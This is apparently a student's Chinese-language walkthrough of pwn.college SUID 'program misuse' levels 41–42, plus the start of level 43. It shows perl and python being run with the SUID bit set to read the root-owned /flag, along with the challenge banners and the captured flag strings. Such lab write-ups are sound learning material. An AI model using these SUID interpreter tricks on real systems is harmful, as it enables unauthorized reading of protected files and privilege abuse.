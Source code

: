 这个题让我想起了一个看到的内容：
>如果我们在命令之中不使用管道而使用重定向（这是新手可能会犯的错误）那么前一个输出会重写到后面的命令之中造成混乱，比如 cat /flag > more
## level41 Lets you read the flag because they let you program anything!
```
hacker@program-misuse-level-41:~$ sh file.sh
Welcome to ./babysuid_level41!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/perl.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level41) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/perl!
```
`perl`是个脚本解释器，
```
hacker@program-misuse-level-41:~$ perl -ne "print if pwn.college" /flag
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "C.UTF-8",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
pwn.college{s8g_u7MkHNRfph-Yrrslj2vzKUJ.01M4EDL2QjMyMzW}
hacker@program-misuse-level-41:~$
```
打印有pen.college的行

## level42 Lets you read the flag because they let you program anything!
```
hacker@program-misuse-level-42:~$ sh file.sh
Welcome to ./babysuid_level42!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/python.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level42) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/python!
```
使用python
```
>>> with open("/flag","r") as f:
...     print(f.read())
...
pwn.college{kTtv9lYtW7yK8dnUSvApk5Yv1s-.0FN4EDL2QjMyMzW}

>>>
```
## level43 Lets you read the flag because they let you program anything!
```
hacker@program-misuse-level-43:~$ sh file.sh
Welcome to ./babysuid_level43!
```